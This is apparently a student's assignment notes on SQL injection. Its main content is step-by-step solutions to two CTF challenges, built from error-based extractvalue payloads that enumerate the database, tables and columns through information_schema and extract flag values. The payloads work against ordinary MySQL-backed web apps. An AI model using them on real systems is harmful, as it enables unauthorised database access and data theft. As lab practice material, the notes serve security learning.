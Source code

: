 ## Part 6. Assignment
1. Review Error-base SQL Injection
2. Review Blind-based SQL Injection
3. CTF - SQL Injection (Blind Practice)
* database      => blindSqli
* table_name      => plusFlag_Table
* coulum_name      => flag
4. Review SQL Injection
5. SQL Injection - CTF
6. Web Site Development

* CTF - SQL Injection 3
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select database()))) and '1'='1
```
Result => sqli_2
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select table_name from information_schema.tables where table_schema = 'sqli_2' limit 0,1))) and '1'='1
```
Result => flag_table
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 0,1))) and '1'='1
```
Result => flag
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag from flag_table limit 0,1))) and '1'='1
```

* CTF - SQL Injection 4
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select database()))) and '1'='1
```
Result => sqli_2_1
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select table_name from information_schema.tables where table_schema = 'sqli_2_1' limit 0,1))) and '1'='1
```
Result => flag_table
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 0,1))) and '1'='1
```
Result => flag1
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 1,1))) and '1'='1
```
Result => flag2
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 2,1))) and '1'='1
```
Result => flag3
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 3,1))) and '1'='1
```
Result => flag4
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 4,1))) and '1'='1
```
Result => flag5
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 5,1))) and '1'='1
```